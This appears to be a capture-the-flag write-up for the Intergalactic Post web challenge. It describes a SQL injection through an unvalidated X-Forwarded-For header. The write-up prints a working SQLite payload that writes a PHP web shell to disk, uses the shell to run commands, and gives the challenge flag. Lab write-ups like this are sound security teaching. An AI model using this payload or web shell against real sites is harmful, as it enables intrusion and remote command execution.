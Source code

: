 # [Web] Intergalactic Post

Intergalactic Post is a PHP website, getting subscriptions from user emails. Each subscription is recorded in a database, containing 2 fields: `ip` and `email`.

We see that the email variable is validated. Damn!

![Email validation](./img/web_intergalactic_1.png)

Lucky for us, this isn’t the case for the `ip` variable, directly taken from the `X-Forwarded-For` HTTP header. This value is inserted in a SQL query, as is, without being parameterized!

Straight to [SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)!

![IP no validation](./img/web_intergalactic_2.png)

Let's exploit it, with a payload from the famous [PayloadsAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```
',''); ATTACH DATABASE '/www/lol/php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>"); --
```

![Exploit](./img/web_intergalactic_3.png)

This creates a new database named `lol.pwn`, and written on disk as `/www/lol.php`. In there we can `INSERT` a simple webshell `<?php system($_GET['cmd']); ?>`. Time for profit!

![Profit](./img/web_intergalactic_4.png)

We can run any shell command we like, such as `ls`, or `cat /flag_*.txt`:

The flag is `HTB{inj3ct3d_th3_tru7g}`.
